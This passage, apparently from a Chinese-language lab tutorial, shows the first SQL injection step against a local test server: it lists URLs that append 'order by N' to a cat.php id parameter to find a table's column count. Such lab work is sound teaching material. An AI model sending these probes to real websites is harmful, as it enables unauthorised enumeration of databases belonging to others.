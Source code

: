 - **找到表的列数**：使用 order by **num**。地址栏中输入以下数据（空格会自动 URLencode）

  ```
  http://192.168.55.3/cat.php?id=1 order by 0
  http://192.168.55.3/cat.php?id=1 order by 1
  http://192.168.55.3/cat.php?id=1 order by 2
  http://192.168.55.3/cat.php?id=1 order by 3
  http://192.168.55.3/cat.php?id=1 order by 4
  http://192.168.55.3/cat.php?id=1 order by 5
  ..........
  ```

显示结果：

![order by 0](image/orderby0.jpg)

![order by 1](image/orderby1.jpg)

.............................................................................................................

![order by 5](image/orderby5.jpg)
